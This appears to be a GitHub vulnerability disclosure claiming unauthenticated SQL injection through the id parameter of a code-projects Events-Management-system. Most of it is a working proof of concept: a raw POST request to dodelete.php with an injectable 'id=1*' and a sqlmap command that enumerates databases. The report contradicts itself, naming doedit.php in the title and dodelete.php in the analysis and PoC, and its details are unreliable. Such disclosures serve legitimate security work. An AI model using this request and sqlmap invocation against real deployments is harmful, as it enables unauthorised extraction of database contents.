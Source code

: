 # Events-Management-system has sql injection vulnerability via doedit.php id parameter

## supplier
https://download.code-projects.org/details/25781c48-4c9f-495e-a56f-fd8b78652542
## Vulnerability file
doedit.php and id parameter
## describe
There are unrestricted SQL injection attacks in the Events-Management-system. Controllable parameters: id. In doedit.php, there is no restriction on adding id parameters to SQL statements. You can obtain sensitive information from the database.
## code analysis
The id parameters of the dodelete.php are not filtered and concatenated into the SQL statement for execution when attacker is not logining.

![image-20241103230630019](https://github.com/user-attachments/assets/2f0f16cc-a77a-4b76-a495-34a5031cae7a)



## POC

```
POST /dodelete.php HTTP/1.1
Host: events-management-system-master
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://events-management-system-master
Connection: close
Referer: http://events-management-system-master/delete.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1*
```

save as 2.txt

execute this command.

```
python sqlmap.py -r 2.txt  --level 3 --risk 2 --dbs
```

Get the database name: healthcare

![image-20241103231348595](https://github.com/user-attachments/assets/6255c54a-0617-471a-997b-3c9481c3cfa0)

![image-20241103231338743](https://github.com/user-attachments/assets/c5c14b93-cdd7-47be-b65f-913e1ba78f5e)

